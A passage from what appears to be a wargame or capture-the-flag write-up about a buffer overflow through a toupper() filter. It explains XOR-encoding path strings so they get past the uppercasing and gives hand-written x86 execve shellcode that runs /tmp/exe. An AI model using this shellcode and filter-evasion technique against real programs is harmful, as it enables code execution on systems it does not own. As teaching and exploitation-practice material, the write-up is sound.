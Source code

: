 Having to deal with `toupper()` basically means that any byte that's
between 0x61 (`a`) & 0x7a (`z`) in the buffer will be subtracted by
0x20 (aka converted into uppercase). 

This means that our shellcode can't simply push the values 0x6e69622f
(`/bin`) & 0x68732f2f (`//sh`) - and later, when those values are
interpreted as a string, actually resolve to a existing path.

Unless you're running linux and have uppercase copies of every path on
your system.

A common technique to sidestep this issue when writing shellcode is to
push a value that is then modified to, in the end result in a lowercase,
valid path.

**Pro-tip: It's simple to convert from a regular path to a encoded path in python**

{% highlight python %}
>>> ' '.join(hex(ord(i) ^ 0xf0)[2:] for i in '/bin')
'df 92 99 9e'
>>> ' '.join(hex(ord(i) ^ 0xf0)[2:] for i in '//sh')
'df df 83 98'
{% endhighlight %}

To get the original ASCII back, we just xor the value again with 0xf0f0f0f0.

#### Aiming for the stars, landing on the moon.

Before I looked for the buffer in the core-dumps. My assumption was
that the buffer was located at 0xbffff5a8 (which I got from examining
my own version of the program), but that was off by about 1184 (0x4a0)
bytes.

After looking through a couple of shellcodes available from
exploit-db.com, I lost patience and decided to write my own.

{% highlight nasm %}
;; Shellcode to execute /tmp/exe via systemcall 11 (execve)
xor eax,eax          ; clear eax
push eax             ; push nullbyte onto the stack
mov eax, 0x958895df  ; '/exe'
xor eax, 0xf0f0f0f0  ; turn it back to ascii
push eax             ; push it onto the stack
mov eax, 0x809d84df  ; '/tmp'
xor eax, 0xf0f0f0f0
push eax             ; push the ascii onto the stack
mov eax, 11          ; specify systemcall 11 (execve)
mov ebx, esp         ; ebx should point to the command to execute
; Note:
; ecx & edx should contain pointers to enviroment-variables &
; arguments to be passed into the function. We do not give a hoot
; about these things though. So we just pass nulls
xor ecx, ecx
xor edx, edx
int 0x80             ; call kernel
{% endhighlight %}
